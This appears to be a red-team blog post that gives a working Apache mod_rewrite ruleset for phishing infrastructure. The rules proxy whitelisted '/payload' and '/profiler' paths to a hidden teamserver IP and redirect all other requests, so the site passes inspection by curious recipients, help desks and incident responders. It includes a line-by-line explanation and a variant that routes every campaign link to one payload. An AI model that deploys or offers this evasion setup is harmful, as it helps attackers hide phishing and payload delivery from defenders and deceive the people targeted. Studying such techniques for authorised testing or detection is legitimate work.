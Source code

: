```yaml
---
layout: post
title: Invalid URI Redirection with Apache mod_rewrite
summary: How to redirect users visiting non-existent file paths in your phishing infrastructure to a different site.
---
```


There have been times when a curious phish recipient or a zealous help desk staff has loaded the phishing link in their browser and decided to take a peek at a higher directory or the root domain. Of course, most times there isn't much else site to see. In those cases, the chances of being reported to IR went up significantly, sometimes leading to a phishing campaign being blocked. This is where invalid URI redirection comes in handy.

We can whitelist resources the Apache server will proxy for the targets and redirect any other requests to the target's real domain or another page of our choosing.

In the demo below, the user navigates to *spoofdomain.com/really/long/url.html* and is served a page; however, when the user navigates to *spoofdomain.com/really/* the browser is redirected to *google.com*.

![Invalid URI Redirection Demo](/assets/apache/invalid-uri-demo.gif)

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/(profiler|payload)/?$</span> <span style="color: mediumpurple">[NC,OR]</span><br>
RewriteCond <span style="color: dodgerblue">%{HTTP_REFERER}</span> <span style="color: mediumseagreen">^http://SPOOFED-DOMAIN\.com</span> <span style="color: mediumpurple">[NC]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://TEAMSERVER-IP<span style="color: dodgerblue">%{REQUEST_URI}</span></span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span>
</div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is either '/profiler' or '/payload' (with an optional trailing slash), </span> <span style="color: mediumpurple"> ignoring case; OR </span><br>
<span style="color: dodgerblue">If the request's referer </span> <span style="color: mediumseagreen">starts with 'http://SPOOFED-DOMAIN.com', </span> <span style="color: mediumpurple">ignoring case</span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to serve the </span><span style="color: dodgerblue">original request path </span><span style="color: orange">from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span>
</div>

There are two handy mod_rewrite regex strings being used in this ruleset. The first is the `/?$` string on line two. In the RewriteCond context, the question mark indicates that the previous character, the trailing slash in the example, is optional. Without this regex, RewriteCond would only match the path exactly as written in the ruleset. The dollar sign signifies the end of the URI, meaning the request */payload1* would not match.

The second useful regex is the question mark in the last line. In the RewriteRule context, the question mark tells Apache to drop the query string from the redirected request. 

Since the Proxy `[P]` flag is set on the first RewriteRule, the address bar will still show the original domain name and just append the requested URI to the end of the address. Conversely, if the request doesn't match either condition, the request will be redirected and the address bar will update and show companydomain.com.


A similar use for this redirection would be to redirect all request URIs to one payload. For instance, if you were phishing users in different departments and each email scenario's link was unique you could redirect all users to a single payload without needing to stand up separate copies. To achieve this, simply remove the `$` from the first RewriteCond line. Now the rule will match */profiler* and */profiler/humanresources/legitimatepage.html*.

Redirecting requests with invalid URIs can help a phishing website pass the sniff test for prying recipients or IT. By redirecting non-existent resources users won't reach any index listings or 404 errors on pages that should logically exist. 

# Strengthen Your Phishing with Apache mod_rewrite Posts

* [Strengthen Your Phishing with Apache mod_rewrite and Mobile User Redirection]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/)
* Invalid URI Redirection
* [Operating System Based Redirection with Apache mod_rewrite]({{site.baseurl}}/2016-04-05-operating-system-based-redirection-with-apache-mod_rewrite/)
* [Combatting Incident Responders with Apache mod_rewrite]({{site.baseurl}}/2016-04-12-combatting-incident-responders-with-apache-mod_rewrite/)


{:#resources}

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)